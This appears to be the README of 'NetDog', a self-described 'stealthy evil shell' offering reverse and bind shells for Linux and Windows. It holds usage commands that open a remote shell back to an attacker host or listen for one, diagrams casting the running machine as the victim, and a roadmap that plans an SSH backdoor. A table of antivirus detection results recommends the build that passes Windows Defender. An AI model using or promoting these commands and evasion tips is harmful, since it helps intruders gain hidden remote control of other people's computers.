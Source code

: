 # NetDog
Mini Stealthy Evil Shell

## Roadmap
- Reverse Shell
    - [x] TCP
    - [ ] UDP
    - [ ] HTTP/S
    - [ ] ICMP
- Bind Shell
    - [x] TCP
    - [x] UDP
- Others
    - [ ] IPv6
    - [ ] Encryption
    - [x] Auto reconnect
    - [ ] SSH backdoor server

## Choosing binary
- Always choose the one without upx
- There are only 2 types: `nd` (linux/amd64) `nd.exe` (windows/amd64)

## Reverse shell
```
+------------+            +------------+
|            |            |            |
|   victim   +------------>  attacker  |
|  (netdog)  |            |  10.1.1.1  |
|            |            |            |
+------------+            +------------+
```
```bash
./nd -host 10.1.1.1 # connect to attacker port 1234
```

## Bind shell
```
+------------+            +------------+
|            |            |            |
|   victim   <------------+  attacker  |
|  (netdog)  |            |  10.1.1.1  |
|            |            |            |
+------------+            +------------+
```
```bash
./nd -l -host 10.1.1.1 # listen on port 1234
./nd -l -u # udp mode
```

## AV status
2021-05-23 03:13:04 UTC

| type | size | score | windows defender |
| - | - | -| - |
|without upx | 2.2 MB|[4/69](https://www.virustotal.com/gui/file/b042c2498ab6ee36ce998842d4ed4592d46f55026677f1f6e750edf7b6a2411d/detection)| pass|
|with upx | 663 KB|[6/69](https://www.virustotal.com/gui/file/b6f9b09b20cda55d3e87d4f3c74971bffa65781c297ea4742c5987cc69b9b391/detection)| not pass|